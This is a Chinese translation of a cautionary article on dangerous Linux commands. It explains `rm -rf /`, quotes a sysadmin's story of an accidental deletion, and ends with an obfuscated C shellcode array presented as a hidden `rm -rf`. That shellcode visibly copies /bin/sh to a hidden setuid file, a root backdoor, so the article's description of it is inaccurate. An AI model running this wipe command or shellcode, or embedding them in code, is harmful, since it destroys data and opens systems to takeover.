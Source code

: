
**警告：千万不要在生产环境运行这些命令，它们会危害你的系统。不要在家里尝试，也不要在办公室里测试。**


那么，继续！


### rm -rf /


想要干脆利落的毁掉一个 Linux 系统吗？你无法超越这个被誉为“史上最糟糕”的经典，它能删除一切，我说的是，能删除所有存在你系统里的内容！


和大多数 [Linux 命令](https://www.hpe.com/us/en/insights/articles/16-linux-server-monitoring-commands-you-really-need-to-know-1703.html)一样，`rm` 这个核心命令使用起来非常方便。即便是最顽固的文件它也能帮你删除。结合起后面两个参数理解 `rm` 指令时，你很容易陷入大麻烦：`-r`，强制递归删除所有子目录，`-f`，无需确认，强制删除所有只读文件。如果你在根目录运行这条指令，将清除整个驱动器上的所有数据。


如果你真这么干了，想想该怎么和老板解释吧！


现在，也许你会想，“我永远不会犯这么愚蠢的错误。”朋友，骄兵必败。吸取一下经验教训吧， [这个警示故事来自于一个系统管理员在 Reddit 上的帖子](https://www.reddit.com/r/sysadmin/comments/732skq/after_21_years_i_finally_made_the_rm_boo_boo/)：



> 
> 我在 IT 界工作了很多年，但是今天，作为 Linux 系统 root 用户，我在错误的系统路径运行了 `rm- f`
> 
> 
> 长话短说，那天，我需要复制一大堆目录从一个目录到另一个目录，和你一样，我敲了几个 `cp -R` 去复制我需要的内容。
> 
> 
> 以我的聪明劲，我持续敲着上箭头，在命令记录中寻找可以复制使用的类似命令名，但是它们混杂在一大堆其他命令当中。
> 
> 
> 不管怎么说，我一边在 Skype、Slack 和 WhatsApp 的网页上打字，一边又和 Sage 通电话，注意力严重分散，我在敲入 `rm -R ./videodir/* ../companyvideodirwith651vidsin/` 这样一条命令时神游物外。
> 
> 
> 


然后，当文件化为乌有时其中也包括了公司的视频。幸运的是，在疯狂敲击 `control -C` 后，在删除太多文件之前，系统管理员中止了这条命令。但这是对你的警告：任何人都可能犯这样的错误。


事实上，绝大部分现代操作系统都会在你犯这些错误之前，用一段醒目的文字警告你。然而，如果你在连续敲击键盘时忙碌或是分心，你将会把你的系统键入一个黑洞。（LCTT 译注：幸运的是，可能在根目录下删除整个文件系统的人太多了额，后来 `rm` 默认禁止删除根目录，除非——你手动加上 `--no-preserve-root` 参数！）


这里有一些更为隐蔽的方式调用 `rm -rf`。思考一下下面的代码：



```
char esp[] __attribute__ ((section(“.text”))) = “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68”
“\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99”
“\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7”
“\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56”
“\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31”
“\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69”
“\x6e\x2f\x73\x68\x00\x2d\x63\x00”
“cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;”;

```
